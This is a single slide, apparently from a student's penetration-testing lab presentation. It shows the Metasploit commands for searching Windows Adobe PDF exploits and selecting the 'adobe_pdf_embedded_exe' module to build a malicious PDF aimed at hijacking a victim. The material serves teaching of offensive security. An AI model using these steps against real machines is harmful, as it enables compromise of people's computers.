

Low Yi Fan 17110940/1
# Detailed Steps (cont.)
Search for exploit that matches our target Windows platform and Adobe PDF reader.

From the list, use the module “adobe_pdf_embedded_exe” to achieve the target of hijacking the victim.

search type:exploit platform:windows adobe pdf

use exploit/windows/fileformat/adobe_pdf_embedded_exe